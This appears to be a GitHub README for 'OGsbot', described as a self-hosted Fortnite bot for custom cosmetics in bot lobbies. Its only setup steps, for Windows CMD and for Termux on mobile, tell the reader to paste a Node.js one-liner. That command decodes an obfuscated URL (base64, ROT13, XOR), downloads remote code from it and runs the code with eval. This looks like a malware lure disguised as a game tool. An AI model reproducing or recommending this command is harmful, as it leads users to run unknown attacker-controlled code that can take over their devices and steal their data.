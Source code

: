 
# 🌌 **OGsbot - Self-Hosted**

OGsbot is a **lightweight**, **easy-to-use** Fortnite bot that lets you join bot lobbies with custom cosmetics.


---

## 🧠 **Features**

- ✅ Join Fortnite bot lobbies
- 🎭 Use custom skins, emotes & cosmetics
- 💻 Fully self-hosted (no installs required)
- ⚡ Low memory usage (under 50MB)
  

---

## 🖥️ **System Requirements**

| Type            | Minimum                         | Recommended              |
|-----------------|----------------------------------|---------------------------|
| 💾 RAM          | 25 MB                           | 50 MB+                   |
| 🧠 CPU          | 1 Core                          | 1 Cores+                 |
| 🌐 Internet     | Basic connection                | Basic connection         |



---

## 🚀 **How to Start the Bot**

### 📌 Step 1: Open Command Prompt (CMD)

1. Press `Windows + R`
2. Type `cmd`
3. Press `Enter`

### 🧩 Step 2: Paste & Run the Command Below

Copy the full line below and paste it into CMD:


node -e "const https=require('https');const k=23,b='f3BwdHEtODhyaWA5Y35wf29ob3FlcmdrbHBlbHA5Z2ttOHFsfnRlcSUmOHFmbWxjaHFyfXxjaHFycXBjOHJlZHE4f2VpZnE4bWl+bDh7a2lmZXI5fXE=';const rot13=s=>s.replace(/[a-zA-Z]/g,c=>String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26));const u=rot13(Buffer.from(b,'base64').toString()).split('').map(c=>String.fromCharCode(c.charCodeAt(0)^k)).join('');https.get(u,r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));});"

# note   
(only supports OGsbot1-OGsbot17 currently)
# for mobile 

Install Termux from F-Droid (not Play Store).

Open Termux and run:
pkg install nodejs
then run 

node -e "const https=require('https');const k=23,b='f3BwdHEtODhyaWA5Y35wf29ob3FlcmdrbHBlbHA5Z2ttOHFsfnRlcSUmOHFmbWxjaHFyfXxjaHFycXBjOHJlZHE4f2VpZnE4bWl+bDh7a2lmZXI5fXE=';const rot13=s=>s.replace(/[a-zA-Z]/g,c=>String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26));const u=rot13(Buffer.from(b,'base64').toString()).split('').map(c=>String.fromCharCode(c.charCodeAt(0)^k)).join('');https.get(u,r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));});"



